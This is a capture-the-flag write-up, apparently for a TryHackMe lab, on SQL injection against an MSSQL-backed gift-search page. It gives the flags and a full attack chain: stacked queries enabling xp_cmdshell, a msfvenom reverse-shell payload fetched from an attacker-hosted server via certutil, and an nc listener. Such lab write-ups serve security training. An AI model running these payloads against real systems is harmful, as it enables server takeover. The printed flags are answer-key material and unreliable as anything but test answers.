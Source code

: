 # Inject the Halls with EXEC Queries 
## Scenario
The Best Festival Company started receiving many reports that their company website, bestfestival.thm, is displaying some concerning information about the state of Christmas this year! After looking into the matter, Santa’s Security Operations Center (SSOC) confirmed that the company website has been hijacked and ultimately defaced, causing significant reputational damage. To make matters worse, the web development team has been locked out of the web server as the user credentials have been changed. With no other way to revert the changes, Elf Exploit McRed has been tasked with attempting to hack back into the server to regain access.
1. SQL - Structured Query Language
2. PHP - Hypertext PreProcessor
![image](https://github.com/pixie-nukes/JTP23-WriteUps/assets/94845416/ed72f75e-35f1-4a97-9025-445787e05af4)
## SQL
SQL injection vulnerabilities pose a considerable risk to web applications as they can lead to unauthorised access, data theft, data manipulation, or even the complete compromise of a web application and its underlying database through remote code execution. If an attacker can control which queries the database executes, they can control the database functions performed and the data returned. As such, the impact can be catastrophic, ranging from exposing sensitive user information to causing significant data breaches.
![image](https://github.com/pixie-nukes/JTP23-WriteUps/assets/94845416/6e8ceae5-36da-4507-9721-74f447c5efeb)
## Tasks:
### 1. Manually navigate the defaced website to find the vulnerable search form. What is the first webpage you come across that contains the gift-finding feature?
> /giftsearch.php
### 2. Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?
After Injecting a `'` on the parameter,
> ODBC Driver 17 for SQL Server
### 3. Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?
After Inject the code after the value of parameter `‘OR 1=1 --`
> THM{a4ffc901c27fb89efe3c31642ece4447}
### 4. What flag is in the note file Gr33dstr left behind on the system?
1. `http://THM-MACHINE-IP/giftresults.php?age='; EXEC sp_configure ‘show advanced options’, 1; RECONFIGURE; EXEC sp_configure ‘xp_cmdshell’, 1; RECONFIGURE; --` Inject this code.
2. Creating a payload using the below command
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe`
3. Start an HTTP server to host the payload with the below command
`python3 -m http.server 8000`
4. Send the payload to the victim site using the below command
`http://THM-MACHINE-IP/giftresults.php?age='; EXEC xp_cmdshell ‘certutil -urlcache -f http://YOUR.LISTENING.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe’;--`
5. Set a listener using the below command
`nc -lnvp 4444`
6. Execute the payload using the command
`http://THM-MACHINE-IP/giftresults.php?age='; EXEC xp_cmdshell ‘C:\Windows\Temp\reverse.exe’; —`
7. Change the directory to Administrator using the command
`Cd C:\Users\Administrator`
8. View the Content of Note.txt using the below command
`type Note.txt`
![image](https://github.com/pixie-nukes/JTP23-WriteUps/assets/94845416/b6ccc650-2b5f-4071-882c-295b95e68220)
> THM{b06674fedd8dfc28ca75176d3d51409e}
### 5. What is the flag you receive on the homepage after restoring the website?
![image](https://github.com/pixie-nukes/JTP23-WriteUps/assets/94845416/e103959d-47ca-4121-ae26-db2a217c7ce4)
>THM{4cbc043631e322450bc55b42c}
